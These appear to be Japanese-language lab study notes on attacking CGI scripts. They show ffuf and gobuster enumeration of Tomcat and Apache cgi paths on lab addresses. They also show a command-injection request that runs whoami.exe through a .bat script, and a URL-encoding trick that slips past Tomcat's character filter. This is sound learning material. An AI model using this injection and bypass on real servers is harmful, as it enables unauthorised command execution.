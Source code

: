 拡張子 .CMD でのファジング
```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

拡張子 .BAT でのファジング
```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

発見されたURLへのアクセス
- 発見された URL `http://10.129.204.227:8080/cgi/welcome.bat` にアクセスすると、次のメッセージが表示される
```http
Welcome to CGI, this section is not functional yet. Please return to home page.
```
- リストからわかるように、環境変数 PATH が未設定（unset） であるため、リクエスト内で実行ファイルの絶対パスをハードコードする必要がある

- Apache Tomcat によって導入されたパッチによるもので、特殊文字の使用を防ぐための正規表現フィルターが働いているので、
- `http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe`
	- このコマンドだと、Tomcat は「無効な文字が検出された」というエラーメッセージを返す
- `http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe`
	- **URLエンコード**によって回避可能

### 列挙
cgiのディレクトリを列挙する
```sh
gobuster dir -u http://10.129.205.27/ -w /usr/share/wordlists/dirb/common.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/cgi-bin/             (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```
- CGIのディレクトリ内のファイルを列挙する
- Gobuster というツールを使って CGI スクリプトを探索することができる
- access.cgi というスクリプトを発見できた
```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
```